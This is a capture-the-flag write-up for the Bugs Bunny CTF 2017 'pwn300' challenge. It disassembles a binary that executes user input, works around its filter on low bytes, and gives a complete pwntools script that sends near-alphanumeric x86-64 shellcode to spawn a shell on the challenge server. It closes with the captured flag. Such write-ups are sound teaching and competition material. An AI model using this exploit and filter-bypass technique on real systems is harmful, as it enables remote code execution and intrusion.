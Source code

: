 ```yaml
---
title: pwn300 (pwnage 300)
category: bugs_bunny_ctf_2k17
author_member: muffinx
show_comments: false
---
```


Description:
```
Oh this time need skills guys

task : nc 54.153.19.139 5256
```


Binary type:

```
pwn300: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1da985f3981214bb78b782af238092d88d9a889e, not stripped
```

Binary security measurements:

```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Code in the beginning:

```c++
int welcome()
{
  return puts("Welcome to BugsBunnyCTF!");
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rdi@1

  v3 = _bss_start;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  welcome();
  itshere(v3, 0LL);
  return 0;
}
```

There's not a lot happening.
But the "itshere" function is interesting.
Unfortunately I can't post here an aesthetic pseudcode, because call-analysis fails in this function.
But why? That's pretty clear when we take a more exact look at it:

```
.text:0000000000400791
.text:0000000000400791 loc_400791:
.text:0000000000400791 lea     rax, [rbp+buf]
.text:0000000000400798 mov     edx, 1          ; nbytes
.text:000000000040079D mov     rsi, rax        ; buf
.text:00000000004007A0 mov     edi, 0          ; fd
.text:00000000004007A5 call    _read
.text:00000000004007AA movzx   eax, [rbp+buf]
.text:00000000004007B1 cmp     al, 0Ah         ; check if it's a newline character -> execute code
.text:00000000004007B3 jz      short shellcode_finished
```

So it reads exactly one byte and checks if it's 0Ah = "\n" (newline).
If it's it'll jump to this code:

```
.text:0000000000400847
.text:0000000000400847 loc_400847:
.text:0000000000400847 lea     rax, [rbp+var_210]
.text:000000000040084E mov     [rbp+var_218], rax
.text:0000000000400855 mov     rdx, [rbp+var_218]
.text:000000000040085C mov     eax, 0
.text:0000000000400861 call    rdx
```

Debugging it, I saw that "call rdx" actually calls our input.
So we basically could submit shellcode and pwn it.
But, there's a restriction:

```
.text:00000000004007D2 movzx   eax, [rbp+buf]
.text:00000000004007D9 cmp     al, 1Fh
.text:00000000004007DB jle     short short wrong_shellcode_byte
```

So if a byte of the shellcode is less than 0x1F the program will exit.
I quickly said "let's go as close as alphanumeric as I quickly can" and I did that.

Here are some good references which will explain this topic in deepth:

https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf
https://nets.ec/Alphanumeric_shellcode
https://nets.ec/Shellcode/Alphanumeric

I used the following instructions to achieve this:

1.) push / pop
2.) xor

Looking at the x64 syscall table of linux we see that sys_execve needs the following register values:

eax = 0x3b
rdi = const char *filename
rsi = const char *const argv[]
rdx = const char *const envp[]

So we just have to set eax to 0x3b and rdi pointing to the string "/bin/sh" to get a shell.

Here's the beginning values during shellcode execution of the registers:
```
RAX: 0x0
RBX: 0x0
RCX: 0x7f4b667eaba0 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffe33dceb90 ("f5PPf5_UH1B@AVAVAV^ZXPf5shfPAVXf5n/fPAVXf5bifPAVXf5//fPT_AVX4R4i")
RSI: 0x7ffe33dceb7b --> 0x71fd78000000400a
RDI: 0x0
RBP: 0x7ffe33dceda0 --> 0x7ffe33dcedb0 --> 0x0
RSP: 0x7ffe33dceb70 --> 0x7f4b66cd94c0 --> 0x7f4b6670f000 --> 0x3010102464c457f
RIP: 0x400861 (<itshere+299>:	call   rdx)
R8 : 0x3f20657265682064 ('d here ?')
R9 : 0x0
R10: 0x7ffe33dce930 --> 0x0
R11: 0x246
R12: 0x400640 (<_start>:	xor    ebp,ebp)
R13: 0x7ffe33dcee90 --> 0x1
R14: 0x0
R15: 0x0

```

To understand my shellcode look at the beginning register values and my exploit.
As you can see, rdx points to our shellcode, so we can write the "syscall" instruction by using:
```
xor ax,0x5050
xor ax,0x555f
xor [rdx+0x40],rax
```

Here's my finished exploit:
```python
#!/usr/bin/env python

from pwn import *
context.update(arch='amd64', os='linux')


# r = process('./pwn300')
r = remote('54.153.19.139', 5256)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0400861
#continue
#''')


# write syscall instruction
payload = asm('xor ax,0x5050')
payload += asm('xor ax,0x555f')
payload += asm('xor [rdx+0x40],rax')

# clear rax, rsi, rdx
payload += asm('push r14')
payload += asm('push r14')
payload += asm('push r14')
payload += asm('pop rsi')
payload += asm('pop rdx')
payload += asm('pop rax')

# change rdi to /bin/sh
payload += asm('push rax')
payload += asm('xor ax,0x6873')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x2f6e')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x6962')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x2f2f')
payload += asm('push ax')

payload += asm('push rsp')
payload += asm('pop rdi')

# put 0x3b in rax
payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor al,0x52')
payload += asm('xor al,0x69')


r.recvuntil('here ?\n')
r.sendline(payload)
r.interactive()
```


Boom! We got a shell! pew pew pew!
```
$ cat /home/pwn300/flag
Bugs_Bunny{ITs_asm_and_its_easy_But_need_more_skills!!}
```
